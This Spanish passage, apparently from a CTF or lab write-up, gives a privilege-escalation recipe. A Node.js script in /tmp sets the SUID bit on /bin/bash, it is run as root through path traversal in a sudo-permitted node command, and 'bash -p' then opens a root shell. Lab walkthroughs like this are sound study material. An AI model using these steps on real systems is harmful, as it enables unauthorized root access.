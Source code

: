 Crea un archivo .js en la carpeta tmp y coloca el codigo

```js
const { exec } = require("child_process");  
  
exec("chmod u+s /bin/bash", (error, stdout, stderr) => {  
if (error) {  
console.log(`error: ${error.message}`);  
return;  
}  
if (stderr) {  
console.log(`stderr: ${stderr}`);  
return;  
}  
console.log(`stdout: ${stdout}`);  
});

```

despues

```bash

sudo /usr/bin/node /usr/local/scripts/../../../../../../tmp/archivo.js
```

```bash
/bin/bash -p
```
